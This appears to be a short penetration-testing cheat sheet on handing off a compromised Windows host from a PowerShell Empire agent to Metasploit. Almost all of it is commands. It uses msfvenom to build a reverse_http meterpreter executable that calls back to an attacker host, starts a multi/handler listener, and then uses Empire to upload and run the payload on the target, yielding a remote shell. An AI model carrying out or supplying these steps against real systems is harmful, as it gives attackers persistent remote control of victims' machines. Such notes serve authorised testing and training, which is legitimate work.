

switch from Empire to Metasploit
Powershell Empire Agent active on the target hostIf we have a Empire Agent on the target host but we want to use a feature available on metasploit
root@kali:/# msfvenom -p windows/meterpreter/reverse_http LHOST=[attackerIP] LPORT=[attackerPort] -f exe -o /tmp/metasploit.exe
root@kali:/# msfconsole
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_http
msf> set LHOST 192.168.1.122
msf> set LPORT 7777
msf> exploit
(Empire)> cd [destination-Path-On-The-Target]
(Empire)> upload /tmp/metasploit.exe
(Empire)> shell [destination-Path-On-The-Target]/metasploit.exe
Now if we come back to the listening handler on Metasploit we should have a meterpreter shell!
